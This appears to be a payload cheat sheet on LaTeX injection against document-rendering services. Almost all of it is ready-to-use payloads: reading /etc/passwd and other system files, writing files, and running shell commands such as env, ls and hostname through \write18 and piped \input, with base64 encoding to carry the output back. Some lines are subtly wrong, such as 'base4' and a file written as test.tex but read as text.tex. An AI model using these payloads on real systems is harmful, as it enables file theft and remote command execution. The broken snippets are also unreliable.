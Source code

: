 # LaTex Injection

## Read file
```bash
\input{/etc/passwd}
\include{password} # load .tex file
```

Read single lined file
```bash
\newread\file
\openin\file=/etc/issue
\read\file to\line
\text{\line}
\closein\file
```

Read multiple lined file
```bash
\newread\file
\openin\file=/etc/passwd
\loop\unless\ifeof\file
    \read\file to\fileline 
    \text{\fileline}
\repeat
\closein\file
```

Read text file, keep the formatting
```bash
\usepackage{verbatim}
\verbatiminput{/etc/passwd}
```


## Write file
```bash
\newwrite\outfile
\openout\outfile=cmd.tex
\write\outfile{Hello-world}
\closeout\outfile
```

## Command execution
The input of the command will be redirected to stdin, use a temp file to get it.
```bash
\immediate\write18{env > output}
\input{output}
```
If you get any LaTex error, consider using base64 to get the result without bad characters
```bash
\immediate\write18{env | base64 > test.tex}
\input{text.tex}
```

```bash
\input|ls|base4
\input{|"/bin/hostname"}
```


## Thanks to
* [Hacking with LaTeX - Sebastian Neef - 0day.work](https://0day.work/hacking-with-latex/)
* [Latex to RCE, Private Bug Bounty Program - Yasho](https://medium.com/bugbountywriteup/latex-to-rce-private-bug-bounty-program-6a0b5b33d26a)
* [Pwning coworkers thanks to LaTeX](http://scumjr.github.io/2016/11/28/pwning-coworkers-thanks-to-latex/)